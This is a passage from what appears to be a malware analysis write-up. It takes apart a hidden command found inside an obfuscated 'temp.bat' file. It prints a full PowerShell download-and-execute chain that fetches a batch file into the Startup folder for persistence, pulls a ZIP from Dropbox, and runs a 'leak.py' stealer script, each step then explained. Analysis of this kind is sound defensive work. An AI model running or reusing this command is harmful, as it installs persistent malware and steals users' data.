 #### Analyze "Temp.bat" File. 

Previous `command` found lead to the `temp.bat` in `Temp` folder in the current users  `crustacean/Appdata/Local/Temp`. Read the contents using `strings` commands once again.

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/f978417a-fe97-4636-82e3-3dba6b25654a" />

Same as previous file, the `temp.bat` start with `echo` command followed by gibberish text. Analyze the full text and we find another interesting `command` hidden in the middle of the gibberish text.

<img width="1901" height="258" alt="image" src="https://github.com/user-attachments/assets/537c887f-91f0-4772-9916-483e4987b923" />

Let me pull it out for you again: 

```
start /min powershell.exe -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
(New-Object -TypeName System.Net.WebClient).DownloadFile('https://github.com/bluecrustacean/oceanman/raw/main/ud.bat', '%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsSecure.bat');
(New-Object -TypeName System.Net.WebClient).DownloadFile('https://www.dropbox.com/scl/fi/uuhwziczwa79d6r8erdid/T602.zip?rlkey=fq4lptuz5tvw2qjydfwj9k0ym&st=mtz77hlx&dl=1',
'C:\\Users\\Public\\Document.zip'); Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('C:/Users/Public/Document.zip', 'C:/Users/Public/Document');
Start-Sleep -Seconds 60; C:\\Users\\Public\\Document\\python.exe C:\Users\Public\Document\Lib\leak.py; Remove-Item 'C:/Users/Public/Document.zip' -Force" && exit
```
What the command do? here: 

```
`start /min powershell.exe -WindowStyle Hidden -Command`: Launches PowerShell in a hidden, minimized window to execute the full command chain silently.

`[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;`: Ensures PowerShell uses TLS 1.2 for secure HTTPS connections, required by many modern servers.

`(New-Object -TypeName System.Net.WebClient).DownloadFile('https://github.com/bluecrustacean/oceanman/raw/main/ud.bat', '%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsSecure.bat');`: Downloads a batch file from GitHub and saves it into the user's Startup folder to achieve persistence—so it runs automatically at system startup.

`(New-Object -TypeName System.Net.WebClient).DownloadFile('https://www.dropbox.com/scl/fi/uuhwziczwa79d6r8erdid/T602.zip?rlkey=fq4lptuz5tvw2qjydfwj9k0ym&st=mtz77hlx&dl=1', 'C:\\Users\\Public\\Document.zip');`: Downloads a ZIP file (T602.zip) from Dropbox and saves it to a public folder accessible to all users.

`Add-Type -AssemblyName System.IO.Compression.FileSystem;`: Loads the .NET assembly needed to extract ZIP files using PowerShell.

`[System.IO.Compression.ZipFile]::ExtractToDirectory('C:/Users/Public/Document.zip', 'C:/Users/Public/Document');`: Extracts the contents of the ZIP file into the C:\Users\Public\Document\ directory.

`Start-Sleep -Seconds 60;`: Pauses execution for 60 seconds—likely to let files extract or system settle before running the next step.

`C:\\Users\\Public\\Document\\python.exe C:\Users\Public\Document\Lib\leak.py;`: Runs a Python script (leak.py) using a bundled python.exe interpreter—likely to execute malicious actions such as stealing data.

`Remove-Item 'C:/Users/Public/Document.zip'` : Deletes the original ZIP archive to clean up traces of the operation.

` -Force  && exit`: Closes the command shell after everything is executed.
```
